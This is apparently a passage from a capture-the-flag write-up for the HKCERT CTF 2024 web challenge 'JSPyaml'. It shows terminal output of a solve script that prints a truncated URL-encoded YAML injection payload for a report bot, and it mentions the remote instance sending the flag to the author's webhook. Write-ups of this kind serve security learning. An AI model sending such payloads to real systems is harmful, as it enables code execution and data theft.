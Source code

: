Let's go! It worked on our local environment! Let's get the real flag on the remote instance.

Oh also, to automate the above steps, I wrote the following Python script to generate the final payload:

<details><summary><strong>solve.py</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2024/Web/JSPyaml)-[2024.11.17|22:31:50(HKT)]
└> python3 solve.py
[*] Send the following payload to the bot:
http://localhost:3000/report#%21%21python%2[...]
```

Remote instance's POST request to our webhook site:

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2024/images/Pasted%20image%2020241117224109.png)
